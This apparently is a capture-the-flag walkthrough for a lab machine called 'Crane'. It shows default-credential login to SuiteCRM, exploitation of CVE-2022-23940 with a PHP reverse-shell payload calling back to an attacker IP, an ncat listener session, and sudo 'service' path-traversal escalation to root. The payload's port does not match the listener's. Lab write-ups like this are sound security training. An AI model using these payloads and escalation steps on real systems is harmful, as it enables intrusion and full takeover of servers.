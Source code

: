 ____
# Walkthrough for Crane

# Enumeration

## Nmap

With nmap scan, we notice a web server on the target machine.

## SuiteCRM

> is an open-source Customer Relationship Management application for servers written in PHP.

## Exploitation

### Remote Code Execution

The app is using default credentials

```bash
admin:admin
```

Searching **"SuiteCRM"** on google will lead us [here](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-23940).

The detail exploitation steps can be found here: https://github.com/manuelz120/CVE-2022-23940

We find **"[CVE-2022-23940](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-23940)"** recorded for **SuiteCRM**.

Using the exploit given in the repo we can get code execution.

```bash
python exploit.py -u admin -p admin --payload "php -r '$sock=fsockopen("192.168.1.75", 4444); exec("/bin/sh -i <&3 >&3 2>&3");'"
```

## Privilege Escalation

After getting shell and looking at the sudo entries we can see that www-data is allowed to run the binary `service` as sudo.

Using the technique below we can elevate our privileges.

```bash
~  λ ncat -nvlp 4443                                                                    1 ↵
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4443
Ncat: Listening on 0.0.0.0:4443
Ncat: Connection from 172.16.201.78.
Ncat: Connection from 172.16.201.78:43678.
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ sudo -l
Matching Defaults entries for www-data on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

User www-data may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/sbin/service
$ sudo /usr/sbin/service ../../../../../bin/bash
id
uid=0(root) gid=0(root) groups=0(root)
```